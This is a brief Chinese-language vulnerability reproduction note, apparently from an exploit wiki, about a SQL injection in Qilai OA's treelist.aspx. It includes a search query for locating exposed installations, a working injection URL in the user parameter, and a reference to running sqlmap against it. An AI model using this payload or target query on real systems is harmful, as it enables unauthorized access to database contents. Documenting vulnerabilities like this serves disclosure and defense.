 # 启莱OA treelist.aspx SQL注入漏洞

# 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下



![qilai-1-1](/images/qilai-1-1.png)

存在SQL注入的文件为 treelist.aspx

```plain
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-1-2](/images/qilai-1-2.png)

使用SQLmap对参数 user 进行注入

![qilai-1-3](/images/qilai-1-3.png)


